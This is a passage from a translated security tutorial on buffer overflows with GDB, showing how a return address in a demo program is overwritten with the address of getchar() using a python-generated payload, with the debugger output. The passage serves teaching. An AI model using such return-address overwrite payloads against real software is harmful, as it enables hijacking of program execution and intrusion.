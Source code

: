 **getchar()** C function has the specificty of not taking any arguments. When **getchar()** function is executed, the program awaits for a character to be entered by the user (_on **stdin**_). If we overwrite the Return Address with this function address, the program should therefore execute the **getchar()** function … shouldn't it?
{: .text-justify}

```shell
gdb-peda$ info function getchar
 All functions matching regular expression "getchar":
Non-debugging symbols:
0xf7e76de0 getchar 
0xf7e78c60 getchar_unlocked
```

As we saw earlier, the last <u>4 bytes of our buffer overwrite the **<span style="color:blue">Return Address</span>**</u>. To run the **getchar()** function, we want this address to be replaced by **<span style="color:blue">\xe0\x6d\xe7\xf7</span>** which equals to **<span style="color:blue">f7e76de0</span>**(_as described in **Little Endian** convention, remember the [first chapter part][refbogdbp1]: **Stack**_):

```shell
gdb-peda$ run $(python -c 'print "a" * 140 + "\xe0\x6d\xe7\xf7"')
 Starting program:/home/user1/bfpoc $(python -c 'print "a" * 140 + "\ xe0\x6d\xe7\xf7" ')
[0] main () Start here.
[1] Calling funcMyLife ().
[2] funcMyLife () Start here.
[3] Variable buffer declaration.
[4] Calling strcpy (). <= [Vulnerability]
Message: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[5] funcMyLife () end at the next instruction (ret).
x
 Program received signal SIGSEGV, Segmentation fault.
```
And there you have it, as you can see, the program stops to allow the user to enter a character. Impressive isn't it?.. No?.. Not that much?

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/posts_img/devil-face.png){: style="float: right; width: 60px; margin: 1em"}
That's a shame, because you'll have to be content for the moment. Because yes, the second part ends here. You'll just have to wait for the third part where we'll **<span style="color:red">Release the Kraken Muahahhahaha</span>**!

_Translated from [0x0ff.info](https://www.0x0ff.info/2015/buffer-overflow-gdb-part-2/) by [@Razcall_](https://twitter.com/Razcall_)._

[refbo]: https://en.wikipedia.org/wiki/Buffer_overflow
[refdos]: https://en.wikipedia.org/wiki/Denial-of-service_attack
[refsetuid]: https://en.wikipedia.org/wiki/Setuid
[refpe]: https://en.wikipedia.org/wiki/Privilege_escalation
[refpload]: https://en.wikipedia.org/wiki/Payload_(computing)
[refbogdbp1]: https://en.0x0ff.info/tools/2021/02/04/Buffer-Overflow-and-GDB-Part1.html
